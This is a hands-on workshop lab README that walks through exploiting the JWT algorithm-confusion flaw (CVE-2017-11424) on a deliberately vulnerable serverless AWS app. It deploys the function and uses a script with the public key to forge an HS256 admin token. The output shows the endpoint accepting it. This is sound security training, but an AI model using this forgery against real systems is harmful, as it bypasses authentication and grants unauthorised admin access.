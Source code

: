 # Algorithm Confusion

You can read more about this flaw here: 
* [CVE-2017-11424](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=873244)
* [Auth0 Blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)


**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

## Instructions
* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Now run `pipenv shell`

```commandline
pipenv shell
```

* Step 3: In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Step 4: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 5: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/Algo-Confusion/serverless.yml)

* Step 6: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely. you should see something like this: 

```bash
Serverless: Stack update finished...
Service Information
service: we45-sls-workshop-algo-confusion
stage: dev
region: us-west-2
stack: we45-sls-workshop-algo-confusion-dev
resources: 18
api keys:
  None
endpoints:
  GET - https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
  GET - https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify
functions:
  init-algo: we45-sls-workshop-algo-confusion-dev-init-algo
  verify-algo: we45-sls-workshop-algo-confusion-dev-verify-algo
```

* Step 7: Now run

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

You should get a response like so: 

```json
{
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImF1dGhlbnRpY2F0ZWQiOmZhbHNlfQ.Nz39CRtIFrCsX76B9Dq0aEOSsWQ9UwDFNqla1Xj1PHiIOSh0WFcJHWEO1NF7YKq6Uv8C__tKQA2fg3qH_m7gLSLkQSf2eGRAubJXMU2XRRlkhMKvI6iksEnjUBvRAbt_UhN5mDcXHjBpX_1q2wadmVbiBz6YkfkffdTMas7ywLFK43tKvL9Iw32fRgoP__K93EaYdvT8Wxm0LdMU_RxmBqjrf4nwTrGynwoWqc2ZRKYa7tZMNCGNIEiNQxK1b4p39MpZqwhIVkFsFMNwd_jECE0nfzcskTQdtZG4KC1WLSnOB7XNjWwAM_NUujCp_sB_iTcEGQlBfo-Oxx5yULXSBA"
}
```

* Step 8: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 9: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 10: `pipenv shell`

```commandline
pipenv shell
``` 

```commandline
pipenv install pyjwt
``` 

```commandline
pipenv install huepy
```


* Step 11: In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Step 12: Now run `python token_gen.py public.pem`

```commandline
python token_gen.py public.pem
``` 
* You should see a response like so

```bash
[+] Token is:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
``` 

* Step 13: Copy the token and run: 

```bash
http GET https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

* You should see a response like this: 

```bash
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 40
Content-Type: application/json
x-amzn-RequestId: e66e15fb-b1b2-11e9-8818-53f47d545fa4

{
    "authenticated": true,
    "user": "admin"
}
```

### Teardown

* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Step 15: Run `sls remove --force` to remove stack

```commandline
sls remove --force
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```
